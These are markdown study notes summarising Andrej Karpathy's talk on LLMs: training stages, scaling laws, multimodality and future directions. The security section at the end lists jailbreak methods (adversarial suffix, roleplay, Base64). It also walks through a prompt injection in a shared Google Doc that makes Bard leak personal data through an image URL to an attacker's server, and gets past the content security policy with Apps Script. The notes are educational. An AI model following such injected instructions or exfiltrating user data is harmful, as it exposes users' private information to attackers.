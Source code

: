 ```yaml
---
title: Andrej's Lessons
---
```


### Here are the keytakeways

1. LLM Training takes greater time than writing code
2. Gathering the data is a huge part of the process
3. LLMs basically dream ; they are simply a neural network and the neural network tries to predict the next word
4. LLMs suffer from reversal curse
   For Example - Who is Tom Cruise's Mother
   Answer by GPT-4 - Mary Lee Pfieffer

Who is Mary Lee Pfieffer's som ?
Answer by GPT-4 - Don't know!

5. Think of LLMs as mostly inscrutible artifacts. develop correspondingly sophisticated evaluations

### Summary : how to train your chatgpt

#### Stage 1 : Pretraining

1. Download ~10TB of text
2. Get a cluster of ~6,000 GPUs
3. Compress the text into a neural network, pay ~2$M, wait ~12 days
4. Obtain base model.

(Do these steps every year)

#### Stage 2 : Fintuning

1. Write labelling instructions
2. Hire people ( or use scale.ai), collect 100K high quality Q&A responses and or/comparisons
3. Finetune base model on this data, wait ~1 day
4. Obtain assistant model
5. RUn a lot of evaluations
6. Deploy
7. Monitor, collect misbehavious, go to step 1

(Do this every week)

Stage 2 is lot cheaper than Stage 1

#### Stage 3 : Optional

It is often much easier to compare answers instead of writing answers.
LLMS can reference abd folow the labelling instructions just like humans can.
LLMS can create drafts, for humans to slice together into a final label
LLMS can review and critique labels based on the instructions.

### LLM Scaling Laws

Performance of LLMS is smooth well-behaved, predictable function of two parameters ( N and D)
where N is the number of parameters in the network
D is the amount of text we train on
So we can simply expect more intelligence by "Scaling"

### Multimodality

LLMS capability to generate not only text but video as well as audio
Right Now LLMS can both see, and generate images.
Speech to Speech Communication

#### Future development

1. System 1 vs System 2 thinking
   Example
   System 1 would be, what is 2+2
   Speed chess

System 2 would be what is 17x24
Timed chess

LLMS currently only have a System 1
System 2
Like tree search in chess, but in language ( tree of thoughts)
We want to "think":convert time to accuracy
Image time as x-axis and accuracy as y-axis.
So with time accuracy should increase.
A monotonically incrrasing plot

2. Self Improvement
   Learn by imitating expert human players.
   Learn by self-improvement(reward=win the game)

   Big question in LLMs :
   What does Step 2 look like in the open domain of language ?
   Main challenge : Lack of reward criterion

3. Custom LLMs ( Already done)
   We can also add knowledge by uploading files.
   RAG - Retrievel augmented generation. We can upload files and chatgpt can reference those files to give responses. Like Claude 2 we can upload pdfs.
   ![Alt text](image.png)

4. Communicate with other LLMs
   ![Alt text](../public/images/llmos.png)

### LLM Security

1. Jailbreak (This is so cool though!)
   ![Alt text](../public/images/jailbreak.png)
   Using Universal Transferable suffix
   Using Roleplay
   Using Base64 encoding
2. Prompt injection

3. Ask Bard to help with a shared Google Doc
4. Google Doc contains a prompt injection attack
5. Bard is hijacked and encodes personal data/information into an image URL
   ! [Data Exfiltration in Progress] (https://wuzzi.net/logo.png?goog=[DATA_EXFILTRATION]
6. The attacker controls the server and gets the data via the GET request
7. Problem: Google now has a "Content Security Policy" that blocks loading images from arbitrary locations
8. Solution: use "Google Apps Scripts"
   Apps Script (office macros-like functionality)
9. Use Apps Script to export the data to a Google Doc (that the attacker has access to)

10. Data poisoning/ Backdoor attacks
